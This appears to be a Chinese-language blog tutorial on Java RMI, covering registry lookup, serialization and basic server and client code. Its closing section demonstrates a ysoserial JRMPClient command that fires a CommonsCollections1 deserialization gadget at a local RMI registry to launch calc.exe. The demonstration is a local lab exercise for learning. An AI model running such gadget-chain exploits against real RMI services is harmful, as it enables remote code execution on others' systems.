




## 基础知识

RMI（Remote Method Invocation）为远程方法调用，是允许运行在一个Java虚拟机的对象调用运行在另一个Java虚拟机上的对象的方法。 这两个虚拟机可以是运行在相同计算机上的不同进程中，也可以是运行在**网络上的不同计算机中,**它的底层是由**socket**和**java序列化和反序列化**支撑起来的。

Java RMI：Java远程方法调用，即Java RMI（Java Remote Method Invocation）是Java编程语言里，一种用于实现远程过程调用的应用程序编程接口。它使客户机上运行的程序可以调用远程服务器上的对象。远程方法调用特性使Java编程人员能够在网络环境中分布操作。RMI全部的宗旨就是尽可能简化远程接口对象的使用。

我们知道远程过程调用（Remote Procedure Call, RPC）可以用于一个进程调用另一个进程（很可能在另一个远程主机上）中的过程，从而提供了过程的分布能力。Java 的 RMI 则在 RPC 的基础上向前又迈进了一步，即提供分布式对象间的通讯。

### 如何找到类？

类似DNS中域名和IP的对应关系，RMI中有一个 **RMIRegistry** 来提供这种对应关系，客户端通过访问 **RMIRegistry** 来获得对应的类进行加载

### 数据是如何传递的？

当客户端通过RMI注册表找到一个远程接口的时候，所得到的其实是远程接口的一个动态代理对象。当客户端调用其中的方法的时候，方法的参数对象会在序列化之后，传输到服务器端。服务器端接收到之后，进行反序列化得到参数对象。并使用这些参数对象，在服务器端调用实际的方法。调用的返回值Java对象经过序列化之后，再发送回客户端。客户端再经过反序列化之后得到Java对象，返回给调用者。这中间的序列化过程对于使用者来说是透明的，由动态代理对象自动完成。

所以客户端并不是直接和服务端进行通信的，而是由客户端代理和服务端代理进行通信

如下图：RMI服务器在 **RMIRegistry** 中进行注册，客户端去查找，然后再进行RMI调用



## 示例

Hello接口

```java
import java.rmi.Remote;
import java.rmi.RemoteException;

public interface Hello extends Remote{
    public String hello() throws RemoteException;
}
```

对应的实现

```java
import java.io.Serializable;
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

/**
 * @description: Hello实现
 * @author: Pxy
 * @create: 2020-03-12 22:15
 **/
public class RemoteHello extends UnicastRemoteObject implements Hello{
    protected RemoteHello() throws RemoteException {
        super();
    }
    public String  hello() throws RemoteException {
        return "hello";
    }
}
```

创建一个服务端

```java
import java.rmi.Naming;
import java.rmi.Remote;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.server.UnicastRemoteObject;

/**
 * @description: RMI服务器
 * @author: Pxy
 * @create: 2020-01-20 08:45
 **/
public class RMIServer {
    public void start() throws Exception{
        RemoteHello h = new RemoteHello();

        LocateRegistry.createRegistry(1099);
        Naming.bind("rmi://127.0.0.1:1099/Hello", h);
    }

    public static void main(String[] args) throws Exception {
        RMIServer rmiServer = new RMIServer();
        rmiServer.start();

    }
}
```

客户端进行访问

```java
import java.rmi.Naming;

/**
 * @description: RMI客户端
 * @author: Pxy
 * @create: 2020-01-20 08:57
 **/
public class TrainMain {

    public static void main(String[] args) throws Exception {
        Hello hello = (Hello) Naming.lookup("rmi://127.0.0.1/Hello");
        System.out.println(hello.hello());

    }
}
```

（最好能放在两个不同的文件夹

抓包看一些通信的数据



看到 return data, aced 就是java序列化后的标志



## 攻击RMI服务端

这里用的java7

### JRMP

> Java远程方法协议（英语：Java Remote Method Protocol，JRMP）是特定于Java技术的、用于查找和引用远程对象的协议。这是运行在Java远程方法调用（RMI）之下、TCP/IP之上的线路层协议（英语：Wire protocol）。

通俗点解释，它就是一个协议，一个在TCP/IP之上的线路层协议，一个RMI的过程，是用到JRMP这个协议去组织数据格式然后通过TCP进行传输，从而达到RMI，也就是远程方法调用

由于JRMP协议在传输过程中的数据是序列化后的，不管是服务端还是客户端，当接收到JRMP协议数据时，都会把序列化的数据进行反序列化的话，这样就可以互相对打

### 示例：

创建一个 RMI 服务：

```java
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;

/**
 * @description: 创建一个RMI服务
 * @author: Pxy
 * @create: 2020-03-22 15:18
 **/
public class App {

    public static void main(String[] args) {
        try {
            LocateRegistry.createRegistry(1099);
        } catch (RemoteException e) {
            e.printStackTrace();
        }
        while(true);
    }
}
```

在这个服务器上(其实都是在本地，只是区分一下)，存在有漏洞的Apache Common Collections库，那么就可以直接用

```
java -cp ysoserial-master-30099844c6-1.jar ysoserial.exploit.JRMPClient 127.0.0.1 1099 CommonsCollections1 calc.exe
```



## 参考

[RMI入门](https://wulidecade.cn/2020/02/15/RMI%E5%85%A5%E9%97%A8/#more)

[一篇写的很清楚的文章](https://xz.aliyun.com/t/7079#toc-3)
